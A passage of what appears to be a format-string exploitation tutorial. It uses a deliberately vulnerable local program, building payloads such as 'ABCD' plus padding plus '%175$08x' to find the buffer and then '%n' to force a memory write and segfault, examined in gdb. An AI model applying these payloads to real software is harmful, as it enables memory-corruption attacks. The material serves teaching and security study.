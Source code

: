 ``` {.code}
$ python exploit.py
```

One idea is to keep things in multiple of 4, like "%08x \\n". If you are looking at line `175` we have `44434241` which is the base 16 representation of `“ABCD”` (because it\'s little endian). Note, you can add as many format strings you want, the start of the buffer will be the same (more or less).

We can compress our buffer by specifying the position of the argument.

``` {.code .bash}
$ ./format $(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"AAAAAAAA" * 199 + b"%175$08x")')
ABCDAAAAAAAA...AAAAAAAAAAAAAAAAAAAAAAAAAAAA44434241
This is the most useless and insecure program!
```


`b”AAAAAAAA” * 199` is added to maintain the length of the original string, otherwise the offset might change.


You can see that the last information is our b"ABCD" string printed with `%08x` this means that we know where our buffer is.


You need to enable core dumps in order to reproduce the steps below:

``` {.code}
$ ulimit -c unlimited
```

The steps below work an a given version of libc and a given system. It\'s why the instruction that causes the fault is

``` {.code}
mov %edx,(%eax)
```

or the equivalent in Intel syntax

``` {.code}
mov DWORD PTR [eax], edx
```

It may be different on your system, for example `edx` may be replaced by `esi`, cuch as

``` {.code}
mov DWORD PTR [eax], esi
```

Update the explanations below accordingly.

Remove any core files you may have generated before testing yourprogram:

``` {.code}
rm -f core
```

We can replace `%08x` with `%n` this should lead to segmentation fault.

``` {.code .bash}
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"AAAAAAAA" * 199 + b"%175$08n")')"
Segmentation fault (core dumped)
$ gdb ./format -c core
...
Core was generated by `./format BCDEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0xf7e580a2 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) bt
#0  0xf7e580a2 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
#1  0xf7e5deff in printf () from /lib/i386-linux-gnu/libc.so.6
#2  0x08048468 in main (argc=2, argv=0xffffd2f4) at format.c:18
```